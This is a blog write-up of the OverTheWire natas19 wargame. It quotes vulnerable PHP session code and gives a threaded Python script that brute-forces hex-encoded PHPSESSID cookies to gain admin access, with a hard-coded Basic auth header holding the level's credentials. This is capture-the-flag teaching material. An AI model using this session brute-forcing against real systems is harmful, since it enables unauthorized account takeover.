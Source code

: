 Title: Solution for wargame natas19
Date: 2015-09-15 10:59
Author: admin
Category: PHP, Python, Security, Wargames
Slug: solution-for-wargame-natas19
Status: published

Hi everyone
-----------

I am still trying to solve wargames on
[overthewire](http://overthewire.org). Level 19 proofed to be very
similar to level 18, where server side code looks something like the
following:

    <?

    $maxid = 640; // 640 should be enough for everyone

    function isValidAdminLogin() { /* {{{ */
        if($_REQUEST["username"] == "admin") {
        /* This method of authentication appears to be unsafe and has been disabled for now. */
            //return 1;
        }

        return 0;
    }
    /* }}} */
    function isValidID($id) { /* {{{ */
        return is_numeric($id);
    }
    /* }}} */
    function createID($user) { /* {{{ */
        global $maxid;
        return rand(1, $maxid);
    }
    /* }}} */
    function debug($msg) { /* {{{ */
        if(array_key_exists("debug", $_GET)) {
            print "DEBUG: $msg";
        }
    }
    /* }}} */
    function my_session_start() { /* {{{ */
        if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
            if(!session_start()) {
                debug("Session start failed");
                return false;
            } else {
                debug("Session start ok");
                if(!array_key_exists("admin", $_SESSION)) {
                    debug("Session was old: admin flag set");
                    $_SESSION["admin"] = 0; // backwards compatible, secure
                }
                return true;
            }
        }

        return false;
    }
    /* }}} */
    function print_credentials() { /* {{{ */
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
            print "You are an admin. The credentials for the next level are:";
            print "Username: natas19n";
            print "Password: ";  
        } else {  
            print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";  
        }  
    }  
    /* }}} */

    $showform = true;  
    if(my_session_start()) {  
        print_credentials();  
        $showform = false;  
    } else {  
        if(array_key_exists("username", $_REQUEST) &&
            array_key_exists("password", $_REQUEST)) {  
                session_id(createID($_REQUEST["username"]));  
                session_start();  
                $_SESSION["admin"] = isValidAdminLogin();  
                debug("New session started");  
                $showform = false;  
                print_credentials();  
        }  
    }

    if($showform) {  
    ?>

    Please login with your admin account to retrieve credentials for
    natas19.

    <form action="index.php" method="POST">
    Username: <input name="username">  
      
    Password: <input name="password">  
      
    <input type="submit" value="Login"></input>  

    </form>
    <? } ?>

Assuming register_globals are off in the php.ini, we cannot really
inject some values to alter the logic of the code. Furthermore
`isValidAdminLogin()` always returns 0 and never 1, which is our aim.
But we immediately see that admin cookies are generated in a fixed,
small range:  

` function createID($user) { /* {{{ */     global $maxid; // maxid = 640     return rand(1, $maxid); }`

So we can just try brute forcing all cookies from 1 to 640 and we will
soon be admin.

Now level19 has a very similar code, but the cookie is generated
slightly more complex:

First I tried some login attempts with different username/password
combinations:

` blabla:blabla ->    PHPSESSID=3235392d 626c61 626c61; path=/; HttpOnly blublu:blublu ->    PHPSESSID=3436382d 626c75 626c75; path=/; HttpOnly admin:AAAAAAAAAAAA ->   PHPSESSID=3538322d 61646d696e; path=/; HttpOnly`

We see that the last bytes seem to look like hex values. We can decode
this with python:

` ''.join([chr(i) for i in (0x62, 0x6c, 0x61)]) == 'bla' ''.join([chr(i) for i in (0x61, 0x64, 0x6d, 0x69, 0x6e)]) == 'admin'`

Assuming the valid ID's are still in the range 1-640, I need to figure
out where the id is hidden in the cookie. Seems like the username ist
just appended at the end of the cookie as ascii string. So we need to
set it to '61646d696e' for admin. The first three bytes are probably the
ID, because the ascii values are all numbers.

Overall cookie format:  
` NUM NUM NUM HYPHEN/- USERNAME`

Examples without ASCII encoding:  
` 123-admin 001-admin 012-admin 640-admin`

The solution to crack the code:

    #!/usr/bin/python

    """
    blabla:blabla ->        PHPSESSID=3235392d 626c61 626c61; path=/; HttpOnly
    blublu:blublu ->        PHPSESSID=3436382d 626c75 626c75; path=/; HttpOnly
    admin:AAAAAAAAAAAA ->   PHPSESSID=3538322d 61646d696e; path=/; HttpOnly

    We see that the last bytes seem to look like hex values:

    ''.join([chr(i) for i in (0x62, 0x6c, 0x61)]) == 'bla'
    ''.join([chr(i) for i in (0x61, 0x64, 0x6d, 0x69, 0x6e)]) == 'admin'

    Assuming the valid ID's are still in the range 1-640, I need to figure 
    out where the id is hidden in the cookie. Seems like the username ist just 
    appended at the end of the cookie as ascii string. So we need to set it to 
    '61646d696e' for admin. The first three bytes are probably the ID, because
    the ascii values are all numbers.

    Format:

    NUM NUM NUM HYPHEN/- USERNAME

    Examples without ASCII encoding:

    123-admin
    001-admin
    012-admin
    640-admin
    """

    import threading
    import requests
    import binascii

    DEBUG = True

    class Bruter(threading.Thread):

        username = 'admin'
        url = 'http://natas19.natas.labs.overthewire.org/index.php'
        headers = {
            'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
        }

        def __init__(self):
            super(Bruter, self).__init__()
            self.sids = []

        def stoa(self, value):
            return binascii.hexlify(str(value))

        def run(self):
            for id in self.sids:
                session_id = 'PHPSESSID=' + self.stoa(str(id).zfill(3)) + self.stoa('-') + self.stoa(self.username)
                self.headers['Cookie'] = session_id
                response = requests.get(self.url, headers=self.headers).text

                if DEBUG:
                    print('[i] Requesting with sid {}'.format(session_id))

                if 'You are logged in as a regular user.' not in response:
                    print('[!] Got something: ' + session_id)
                    print(response)


    def main():
        # lets spawn 10 threads
        threads = [Bruter() for i in range(10)]

        for sid in range(1, 641):
            threads[sid%10].sids.append(sid)

        for t in threads:
            t.start()

        for t in threads:
            t.join()


    if __name__ == '__main__':
        main()
